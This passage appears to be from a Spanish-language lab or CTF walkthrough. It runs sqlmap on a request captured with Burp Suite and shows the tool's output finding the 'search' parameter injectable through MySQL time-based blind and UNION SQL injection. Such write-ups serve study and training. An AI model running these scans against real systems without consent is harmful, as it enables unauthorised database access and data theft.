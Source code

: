 Habiendo capturado la peticion con `BurpSuite` y pasarlo a un `.txt` pondremos lo siguiente para probar si es vulenrable.

```shell
sqlmap -r request.txt --dbs --batch
```

Info:

```
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.11#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:31:33 /2025-02-01/

[10:31:33] [INFO] parsing HTTP request from 'request.txt'
[10:31:33] [INFO] testing connection to the target URL
[10:31:33] [INFO] checking if the target is protected by some kind of WAF/IPS
[10:31:33] [INFO] testing if the target URL content is stable
[10:31:33] [INFO] target URL content is stable
[10:31:33] [INFO] testing if GET parameter 'search' is dynamic
[10:31:33] [WARNING] GET parameter 'search' does not appear to be dynamic
[10:31:33] [WARNING] heuristic (basic) test shows that GET parameter 'search' might not be injectable
[10:31:33] [INFO] testing for SQL injection on GET parameter 'search'
[10:31:33] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:31:33] [WARNING] reflective value(s) found and filtering out
[10:31:33] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[10:31:33] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:31:33] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[10:31:33] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[10:31:34] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[10:31:34] [INFO] testing 'Generic inline queries'
[10:31:34] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[10:31:34] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[10:31:34] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[10:31:34] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[10:31:54] [INFO] GET parameter 'search' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[10:31:54] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[10:31:54] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[10:31:54] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[10:31:54] [INFO] target URL appears to have 5 columns in query
[10:31:54] [INFO] GET parameter 'search' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
```